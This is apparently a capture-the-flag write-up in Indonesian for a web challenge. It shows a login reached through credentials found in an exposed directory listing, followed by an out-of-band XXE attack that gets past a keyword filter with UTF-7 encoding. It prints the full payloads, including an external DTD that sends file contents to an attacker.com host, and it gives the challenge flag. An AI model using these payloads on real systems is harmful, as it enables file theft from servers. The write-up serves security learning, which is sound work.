

# Under Development
---
## Deskripsi
Judul : Under Development
Deskripsi : Website ini sesuai judulnya jadi belum layak untuk dionlinekan ( ͡◉ ͜ʖ ͡◉)
## Solusi
Terdapat sebuah login form yang mengharuskan menginputkan username dan password. Pada halaman login terdapat gambar yang bernama autoindex nah itu merupakan sebuah clue bahwa module autoindex pada web server itu kemungkinan di enable. Jadi akan ada sebuah list file pada direktori. Ketika membuka gambar tersebut terdapat direktori assets. Disana terdapat file cred.txt. Tinggal masukin username dan passwordnya

Setelah itu terdapat form contact yang terdapat kerentanan XXE OOB dengan filter didalamnya yaitu 
```
if (strpos($content,"!ENTITY") || strpos($content,"!DOCTYPE") || strpos($content,"!ELEMENT") || strpos($content,".dtd") || strpos($content,"file://") ||  strpos($content,".php") ){
        echo "<br><p style='color: red;'>Malicious payload has been detected!</p>";
    }
```
Untuk letak flag.txt diberitahukan melalui salah satu halaman website tersebut yaitu di /flag.txt . Cara bypass tinggal di encode menggunakan UTF-7 untuk payload XML nya. Karena ini OOB untuk payloadnya 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "php://filter/convert.base64-encode/resource=/flag.txt">
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.xml">
  %dtd;
]>
<data>&send;</data>

```
Untuk payloadnya dapat menggunakan php://filter/convert.base64-encode/resource= kalau pakai file:// entah kenapa tidak bisa .Setelah di encode UTF-7 jadi
```
<?xml version="1.0" encoding="UTF-7"?>
+ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-+ACU-+ACA-file+ACA-SYSTEM+AAo-+ACA-+ACA-+ACI-php://filter/convert.base64-encode/resource+AD0-/flag.txt+ACI-+AD4-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-+ACU-+ACA-dtd+ACA-SYSTEM+AAo-+ACA-+ACA-+ACI-http://attacker.com/evil.xml+ACI-+AD4-+AAo-+ACA-+ACA-+ACU-dtd+ADs-+AAo-+AF0-+AD4-+AAo-+ADw-data+AD4-+ACY-send+ADs-+ADw-/data+AD4-+AAo-
```
Untuk DTD nya filenya dapat disimpan menggunakan ekstensi .xml karena .dtd tidak diperbolehkan.
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;

```
Tinggal jalankan dan mendapatkan sebuah flag

#### ara2021{ezzz_pz_lemon_sqzzzz}